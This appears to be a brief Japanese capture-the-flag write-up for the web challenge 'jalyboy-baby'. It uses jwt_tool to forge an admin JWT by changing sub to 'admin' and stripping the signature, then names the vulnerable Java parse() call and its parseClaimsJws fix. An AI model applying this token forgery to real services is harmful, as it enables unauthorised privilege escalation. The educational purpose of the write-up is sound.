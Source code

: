```yaml
---
title: "jalyboy-baby"
points: 100
tags: ["web"]
---
```


// TODO 良い感じに書く

`login in guest` ボタンをクリックすると、こんな感じのjwtが手に入る。

- `eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJndWVzdCJ9.hwzUMPd20LkyVIieH_92ETWpJSLGnk3l7R03NWfUW-E`

```
$ git clone git@github.com:ticarpi/jwt_tool.git
$ cd jwt_tool
$ docker build . -t jwt_tool
$ docker run -it --entrypoint /bin/sh jwt_tool
# jwt=eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJndWVzdCJ9.hwzUMPd20LkyVIieH_92ETWpJSLGnk3l7R03NWfUW-E
# python3 jwt_tool.py $jwt -T

        \   \        \         \          \                    \
   \__   |   |  \     |\__    __| \__    __|                    |
         |   |   \    |      |          |       \         \     |
         |        \   |      |          |    __  \     __  \    |
  \      |      _     |      |          |   |     |   |     |   |
   |     |     / \    |      |          |   |     |   |     |   |
\        |    /   \   |      |          |\        |\        |   |
 \______/ \__/     \__|   \__|      \__| \______/  \______/ \__|
 Version 2.2.6                \______|             @ticarpi

Original JWT:


====================================================================
This option allows you to tamper with the header, contents and
signature of the JWT.
====================================================================

Token header values:
[1] alg = "HS256"
[2] *ADD A VALUE*
[3] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0

Token payload values:
[1] sub = "guest"
[2] *ADD A VALUE*
[3] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 1

Current value of sub is: guest
Please enter new value and hit ENTER
> admin
[1] sub = "admin"
[2] *ADD A VALUE*
[3] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0
Signature unchanged - no signing method specified (-S or -X)
jwttool_73b80ff3aecc43881aaa3445bc3a7d96 - Tampered token:
[+] eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJhZG1pbiJ9.hwzUMPd20LkyVIieH_92ETWpJSLGnk3l7R03NWfUW-E
```

subをadminに書き換えて出てきたのがこれ。

- `eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJhZG1pbiJ9.hwzUMPd20LkyVIieH_92ETWpJSLGnk3l7R03NWfUW-E`

ここから署名を削ったものを投げたらフラグゲット。

こうなっているコードだけど、parseは署名の検証は行わないらしいので、`parseClaimsJws`に変更する必要がある。

```java
Jwt jwt = Jwts.parser().setSigningKey(secretKey).parse(j);
Claims claims = (Claims) jwt.getBody();
```